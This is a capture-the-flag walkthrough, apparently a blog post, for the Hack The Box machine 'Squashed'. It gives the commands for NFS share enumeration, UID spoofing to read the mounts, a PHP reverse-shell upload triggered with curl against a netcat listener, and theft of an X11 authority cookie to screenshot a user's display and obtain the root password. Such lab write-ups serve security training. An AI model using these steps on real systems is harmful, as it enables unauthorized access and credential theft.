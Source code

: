 ```yaml
---
layout: post
title: HTB Machine - Squashed
subtitle: Writeup
cover-img: 
thumbnail-img: 
share-img: 
tags: [ HTB, Hack the Box,Network,Vulnerability Assessment,Common Services,Authentication,Arbitrary File Upload]
---
```

scans:
```zsh
sudo nmap -sS 10.10.11.191 -p- --open --min-rate 5000 -n -Pn -oG ./nmap/allports
sudo nmap -sCV 10.10.11.191 -p22,80,111,36455,37653,43573,55477 -oN ./nmap/targeted
 
  whatweb http://10.10.11.191
http://10.10.11.191 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.191], JQuery[3.0.0], Script, Title[Built Better], X-UA-Compatible[IE=edge]
```

There are a few interesting ports. The webpage seems to be static, fuzzing it seems to produce nothing interesting. There is also a NFS server/client running so we can enumerate it. 
```zsh
showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```
We can try and mount the filesystem after creating particular folders for each. 
```zsh
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/1 
sudo mount -t nfs 10.10.11.191:/home/ross /mnt/2
```
After mounting the folders we see we cannot read the information inside the folder, perhaps because it is not destined to our user.
```zsh
ls -la
```

To bypass this we could create a user with the particular UID and confirm we have the right setting by checking the /etc/passwd.
```zsh
sudo useradd patata
sudo usermod -u 2017 patata
cat /etc/passwd
```
Now we can use that user to poke around. On the www/html folder we can see that it might be the live website folder. We can test that theory by uploading a regular text file and then calling it through the browser. 

This works, so we can go ahead and upload a reverse shell written in php. I have one already created but for alternatives look for revshells.com
After uploading the reverse shell, set up a netcat listener and call our revshell.php by using curl. 

```zsh
nc -lvnp 4444
curl http://10.10.11.191/reverse.php
```
We are in as a user called Alex and inside his home folder resides the first flag. 

After several checks I did not find anything useful to scalate privileges. So I went back to enumerating the other folder /ross. The folder cannot be access through our user, once again the user UID is not the one required to access the folder content. So we just change the user ID for our previous user (or create a new user with the needed UID).

```zsh
sudo usermod -u 1001 patata
```
Checking the shared folder from the user ross we see the .xauthority file. Doing a bit of research we found out it could be paired with the xwd command to get an screenshot of the currently log in user. We can check if there is another user log-in by going our alex terminal and input 'w'.
Great so we need the xauthority cookie in the alex folder and with it send a command to get a screenshot from the display of user ross. Since we are in the shared folder with enough permissions to it, lets create a python web server and then from the alex console/folder lets download the cookie with wget. 
```zsh
python3 -m http.server 80880
wget 10.10.14.10:8080/.xauthority
```
Now that we have the cookie we need to set it as environment variable to be used with the xwd command. 

```zsh
export XAUTHORITY=/tmp/.Xauthority
```
now that we have the cookie all set we can issue the command and get a screenshot from the ross user. 
```zsh
xwd -display :0 -root -out screenshot.xwd
```
now we just need to convert the screenshot to an image type file. 
```
convert screenshot.xwd screen.png
```
the image shows the password for the root user that we can use after issuing the command su. With that we have gained full privilege access to the machine and can get the final flag. 
